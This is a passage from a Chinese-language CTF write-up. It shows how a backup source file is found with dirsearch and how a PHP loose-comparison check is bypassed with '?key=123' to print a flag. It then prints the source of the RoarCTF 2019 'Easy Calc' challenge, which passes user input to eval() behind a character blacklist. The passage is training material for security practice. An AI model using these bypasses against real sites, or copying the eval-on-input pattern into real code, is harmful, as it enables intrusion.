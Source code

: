 找一下源文件

在index.php.bak里面（用dirsearch扫）

```
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

PHP弱类型比较绕过[看他](http://t.csdn.cn/SgTWa)

payload：

```
?key=123
```

**flag![image-20230420165407197](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420165407197.png)**

## [RoarCTF 2019]Easy Calc

找到信息

![image-20230420165522754](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420165522754.png)

用了一个WAF确保安全

```
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```
